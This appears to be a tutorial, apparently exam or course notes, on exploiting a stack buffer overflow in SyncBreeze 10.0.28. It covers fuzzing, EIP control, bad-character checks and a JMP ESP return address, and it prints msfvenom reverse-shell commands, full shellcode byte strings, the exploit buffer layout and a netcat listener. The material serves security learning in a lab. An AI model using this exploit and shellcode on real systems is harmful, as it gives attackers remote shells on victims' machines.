



<div align='center'>

# **Windows Buffer Overflows**

</div>

## **Table of Content**

- [**1. Discovering the Vulnerability**](#1-discovering-the-vulnerability)
  - [**1.1 Fuzzing the HTTP Protocol**](#11-fuzzing-the-http-protocol)
- [**2. Win32 Buffer Overflow Exploitation**](#2-win32-buffer-overflow-exploitation)
    - [**2.1 A Word About DEP, ASLR, and CFG**](#21-a-word-about-dep-aslr-and-cfg)
    - [**2.2 Replicating the Crash**](#22-replicating-the-crash)
    - [**2.3 Controlling EIP**](#23-controlling-eip)
    - [**2.4 Locating Space for Our Shellcode**](#24-locating-space-for-our-shellcode)
    - [**2.5 Checking for Bad Characters**](#25-checking-for-bad-characters)
    - [**2.6 Finding a Return Address**](#26-finding-a-return-address)
    - [**2.7 Generating Shellcode with Metasploit**](#27-generating-shellcode-with-metasploit)
    - [**2.8 Getting a Shell**](#28-getting-a-shell)
    - [**2.9 Improving the Exploit**](#29-improving-the-exploit)

## **1. Discovering the Vulnerability**

There are three primary techniques for identifying flaws in applications

- Source code review
- Fuzzing
- Reverse engineering techniques

### **1.1 Fuzzing the HTTP Protocol**

The goal of fuzzing is to provide the target application with input that is not handled correctly, resulting in an application crash. If a crash occurs as the result of processing malformed input data, it may indicate the presence of a potentially exploitable vulnerability, such as a buffer overflow.

Vulnerable Program: [SyncBreeze version 10.0.28](https://www.exploit-db.com/exploits/42928)

Starting the program


From Kali Linux, login into SyncBreeze with invalid credentials, and monitor the traffic on TCP port 80

The result in wireshark


The TCP stream is as follows


The HTTP reply shows that the username and password are invalid, but this is irrelevant since the vulnerability we are investigating exists before the authentication takes place. We can replicate this HTTP communication and begin building our fuzzer with a Python Proof of Concept (PoC) [script](./Scripts/Chapter11/poc.py)

Attach the Immunity debugger to the SyncBreeze process: File -> Attach


Run the PoC script


When our username buffer reaches approximately 800 bytes in length, the debugger presents us with an access violation while trying to execute code at address 41414141


This is a classic indication of a buffer overflow vulnerability.

## **2. Win32 Buffer Overflow Exploitation**

### **2.1 A Word About DEP, ASLR, and CFG**

Data Execution Prevention (DEP) is a security feature that prevents the execution of code from memory regions marked as non-executable. This is a common technique used to prevent buffer overflow exploits from executing shellcode from the stack.

Address Space Layout Randomization (ASLR) is a security feature that randomizes the memory addresses used by the operating system and applications.

Control Flow Guard (CFG): Microsoft’s implementation of control-flow integrity, performs validation of indirect code branching, preventing overwrites of function pointers

The SyncBreeze software was compiled without DEP, ASLR, or CFG support.

### **2.2 Replicating the Crash**

SyncBreeze may be vulnerable to a buffer overflow when a username having a length of about 800 bytes

Script: [crash.py](./Scripts/Chapter11/crash.py)

### **2.3 Controlling EIP**

Use a sufficiently long string that consists of non-repeating 4-byte chunks as our fuzzing input. Then, when the EIP is overwritten with 4 bytes from our string, we can use their unique sequence to pinpoint exactly where in the entire input buffer they are located.

- Use the MetaSploit pattern_create.rb script to generate a unique string of 4-byte chunks

```bash
msf-pattern_create -l 800
``` 


Replace the username value in the script with the output of the pattern_create.rb script

Script: [eip.py](./Scripts/Chapter11/eip.py)

Run the script, and the debugger will break at the point where the EIP is overwritten with the value 0x42306142, the hexadecimal representation of the four characters "B0aB"


To find the offset where the EIP overwrite happens, we can use `-l` to specify the length of our original string and `-q` to specify the bytes we found in EIP


These bytes are located at offset 780. Let’s translate this to a new modified buffer string

```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16

inputBuffer = filler + eip + buffer
```

The script: [eip_offset.py](./Scripts/Chapter11/eip_offset.py)

Run the script, and the debugger will break at the point where the EIP is overwritten with the value 0x42424242, the hexadecimal representation of the four characters "BBBB"


We now have complete control over EIP and we should be able to effectively control the execution flow of SyncBreeze

### **2.4 Locating Space for Our Shellcode**

Shellcode is a collection of assembly instructions that, when executed, perform a desired action of the attacker

Closer inspection of the stack at crash time, the ESP register is 0x0078744C

The shellcode offen requires a large amount of space. Therefore, we can update our script to contain 1500 bytes input buffer

```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

The script: [shellcode_space.py](./Scripts/Chapter11/shellcode_space.py)

Run the script, a similar crash can be observed in the debugger. This time, however, we find ESP pointing to a different address value: 0x0081744C


ESP points to the D characters (0x44 in hexadecimal) acting as a placeholder for our shellcode

### **2.5 Checking for Bad Characters**

Depending on the application, vulnerability type, and protocols in use, there may be certain characters that are considered "bad" and should not be used in our buffer, return address, or shellcode.

Check for bad characters in the buffer

```python
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
inputBuffer = filler + eip + offset + badchars
```

The script: [badchars.py](./Scripts/Chapter11/badchars.py)

Run the script, we can right-click on `ESP` and select `Follow in Dump` to show the input buffer hex characters in memory


Only the hex values 0x01 through 0x09 made it into the stack memory buffer. Therefore, we can conclude that 0x0A is a bad character.

Remove the bad characters from the badchars variable. We eventually find that the bad characters: 0x0D, 0x25, 0x26, 0x3D


### **2.6 Finding a Return Address**

Use the [mona.py](https://raw.githubusercontent.com/corelan/mona/master/mona.py) script to find a return address

- `!mona modules`: List all modules loaded in the application


We can see that the executable has safeSEH, ASLR, and NXCompat disabled

We also find that LIBSPP.DLL also suits our needs and the address range doesn't seem to contain bad characters. This is perfect for our needs. Now we need to find the address of a naturally-occurring JMP ESP instruction within this module: ffe4


- `!mona find -s "\xff\xe4" -m libspp.dll`: Search for the JMP ESP instruction in the module



We can see that the address of the JMP ESP instruction is 0x10090c83


Update the script to use this address as the return address

```python
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

The script: [jmp_esp.py](./Scripts/Chapter11/jmp_esp.py)

Place a breakpoint at the JMP ESP instruction address and then run the script



Our debugger shows that we did in fact reach our JMP ESP and hit the breakpoint we previously set.

### **2.7 Generating Shellcode with Metasploit**

Use msfvenom to generate shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

- `-p`: Specify the payload to use
- `LHOST`: Specify the IP address of the attacker
- `LPORT`: Specify the port to connect back to
- `-f`: Specify the output format
- `-e`: Specify the encoder to use
- `-b`: Specify the characters to avoid


We get the shellcode:

```
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68"
```

### **2.8 Getting a Shell**

Because of the encoding, the shellcode is not directly executable and is therefore prepended by a decoder stub. The job of this stub is to iterate over the encoded shellcode bytes and decode them back to their original executable form. In order to perform this task, the decoder needs to gather its address in memory and from there, look a few bytes ahead to locate the encoded shellcode that it needs to decode.

As part of the process of gathering the decoder stub's location in memory, the code performs a sequence of assembly instructions, which are commonly referred to as a `GetPC` routine

Update the script to use the shellcode

```python
shellcode = ("\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68")

filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
inputBuffer = filler + eip + offset + shellcode
```

Script: [shellcode.py](./Scripts/Chapter11/shellcode.py)

Set up a netcat listener on Kali Linux

```bash
nc -nlvp 443
```

Execute the script, we get a shell


However, in some case we may not get a shell. This is because the encoder used by msfvenom is `shikata_ga_nai`. `hikata_ga_nai`'s GetPC routine, like many other GetPC routines, is a bit of a destructive operation. The machine instructions that it executes in its quest for its own address involves putting some data at and around the top of the stack. It doesn't `PUSH` some values on to the stack moving the top of the stack upwards, it has a tendency to destroy a couple of bytes either side of `ESP`. If we allow GetPC to blow a hole right at ESP then it will change some of the code belonging to the shellcode decoder and potentially the encoded shellcode

Solution: prepend the shellcode for the assembly instructions: `sub esp, 0x10`. This code subtracts from ESP, moving it "up" the stack and away from your shellcode 



We get the shellcode: `\x83\xec\x10`

Update the script to use this shellcode

```python
shellcode = ("\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x9c\xbc\xb0\xbd\x83\xee\xfc\xe2\xf4\x60\x54\x32\xbd"
"\x9c\xbc\xd0\x34\x79\x8d\x70\xd9\x17\xec\x80\x36\xce\xb0"
"\x3b\xef\x88\x37\xc2\x95\x93\x0b\xfa\x9b\xad\x43\x1c\x81"
"\xfd\xc0\xb2\x91\xbc\x7d\x7f\xb0\x9d\x7b\x52\x4f\xce\xeb"
"\x3b\xef\x8c\x37\xfa\x81\x17\xf0\xa1\xc5\x7f\xf4\xb1\x6c"
"\xcd\x37\xe9\x9d\x9d\x6f\x3b\xf4\x84\x5f\x8a\xf4\x17\x88"
"\x3b\xbc\x4a\x8d\x4f\x11\x5d\x73\xbd\xbc\x5b\x84\x50\xc8"
"\x6a\xbf\xcd\x45\xa7\xc1\x94\xc8\x78\xe4\x3b\xe5\xb8\xbd"
"\x63\xdb\x17\xb0\xfb\x36\xc4\xa0\xb1\x6e\x17\xb8\x3b\xbc"
"\x4c\x35\xf4\x99\xb8\xe7\xeb\xdc\xc5\xe6\xe1\x42\x7c\xe3"
"\xef\xe7\x17\xae\x5b\x30\xc1\xd4\x83\x8f\x9c\xbc\xd8\xca"
"\xef\x8e\xef\xe9\xf4\xf0\xc7\x9b\x9b\x43\x65\x05\x0c\xbd"
"\xb0\xbd\xb5\x78\xe4\xed\xf4\x95\x30\xd6\x9c\x43\x65\xed"
"\xcc\xec\xe0\xfd\xcc\xfc\xe0\xd5\x76\xb3\x6f\x5d\x63\x69"
"\x27\xd7\x99\xd4\x70\x15\x22\x39\xd8\xbf\x9c\xbd\x0b\x34"
"\x7a\xd6\xa0\xeb\xcb\xd4\x29\x18\xe8\xdd\x4f\x68\x19\x7c"
"\xc4\xb1\x63\xf2\xb8\xc8\x70\xd4\x40\x08\x3e\xea\x4f\x68"
"\xf4\xdf\xdd\xd9\x9c\x35\x53\xea\xcb\xeb\x81\x4b\xf6\xae"
"\xe9\xeb\x7e\x41\xd6\x7a\xd8\x98\x8c\xbc\x9d\x31\xf4\x99"
"\x8c\x7a\xb0\xf9\xc8\xec\xe6\xeb\xca\xfa\xe6\xf3\xca\xea"
"\xe3\xeb\xf4\xc5\x7c\x82\x1a\x43\x65\x34\x7c\xf2\xe6\xfb"
"\x63\x8c\xd8\xb5\x1b\xa1\xd0\x42\x49\x07\x40\x08\x3e\xea"
"\xd8\x1b\x09\x01\x2d\x42\x49\x80\xb6\xc1\x96\x3c\x4b\x5d"
"\xe9\xb9\x0b\xfa\x8f\xce\xdf\xd7\x9c\xef\x4f\x68")

filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
sub_esp_10 = "\x83\xec\x10"

inputBuffer = filler + eip + offset + sub_esp_10 + shellcode
```

Script: [shellcode_imporved.py](./Scripts/Chapter11/shellcode_imporved.py)

### **2.9 Improving the Exploit**

The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated

Solution: using the `ExitThread` API instead of ExitProcess, which will only terminate the affected thread of the program

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


We get the shellcode:

```
"\xd9\xc1\xd9\x74\x24\xf4\x5f\x31\xc9\xba\xef\x6f\xde\x43"
"\xb1\x52\x83\xef\xfc\x31\x57\x13\x03\xb8\x7c\x3c\xb6\xba"
"\x6b\x42\x39\x42\x6c\x23\xb3\xa7\x5d\x63\xa7\xac\xce\x53"
"\xa3\xe0\xe2\x18\xe1\x10\x70\x6c\x2e\x17\x31\xdb\x08\x16"
"\xc2\x70\x68\x39\x40\x8b\xbd\x99\x79\x44\xb0\xd8\xbe\xb9"
"\x39\x88\x17\xb5\xec\x3c\x13\x83\x2c\xb7\x6f\x05\x35\x24"
"\x27\x24\x14\xfb\x33\x7f\xb6\xfa\x90\x0b\xff\xe4\xf5\x36"
"\x49\x9f\xce\xcd\x48\x49\x1f\x2d\xe6\xb4\xaf\xdc\xf6\xf1"
"\x08\x3f\x8d\x0b\x6b\xc2\x96\xc8\x11\x18\x12\xca\xb2\xeb"
"\x84\x36\x42\x3f\x52\xbd\x48\xf4\x10\x99\x4c\x0b\xf4\x92"
"\x69\x80\xfb\x74\xf8\xd2\xdf\x50\xa0\x81\x7e\xc1\x0c\x67"
"\x7e\x11\xef\xd8\xda\x5a\x02\x0c\x57\x01\x4b\xe1\x5a\xb9"
"\x8b\x6d\xec\xca\xb9\x32\x46\x44\xf2\xbb\x40\x93\xf5\x91"
"\x35\x0b\x08\x1a\x46\x02\xcf\x4e\x16\x3c\xe6\xee\xfd\xbc"
"\x07\x3b\x51\xec\xa7\x94\x12\x5c\x08\x45\xfb\xb6\x87\xba"
"\x1b\xb9\x4d\xd3\xb6\x40\x06\x1c\xee\xf4\x53\xf4\xed\x08"
"\x5d\xbe\x7b\xee\x37\xd0\x2d\xb9\xaf\x49\x74\x31\x51\x95"
"\xa2\x3c\x51\x1d\x41\xc1\x1c\xd6\x2c\xd1\xc9\x16\x7b\x8b"
"\x5c\x28\x51\xa3\x03\xbb\x3e\x33\x4d\xa0\xe8\x64\x1a\x16"
"\xe1\xe0\xb6\x01\x5b\x16\x4b\xd7\xa4\x92\x90\x24\x2a\x1b"
"\x54\x10\x08\x0b\xa0\x99\x14\x7f\x7c\xcc\xc2\x29\x3a\xa6"
"\xa4\x83\x94\x15\x6f\x43\x60\x56\xb0\x15\x6d\xb3\x46\xf9"
"\xdc\x6a\x1f\x06\xd0\xfa\x97\x7f\x0c\x9b\x58\xaa\x94\xbb"
"\xba\x7e\xe1\x53\x63\xeb\x48\x3e\x94\xc6\x8f\x47\x17\xe2"
"\x6f\xbc\x07\x87\x6a\xf8\x8f\x74\x07\x91\x65\x7a\xb4\x92"
"\xaf"
```

Update the script to use this shellcode: [shellcode_final.py](./Scripts/Chapter11/shellcode_final.py)
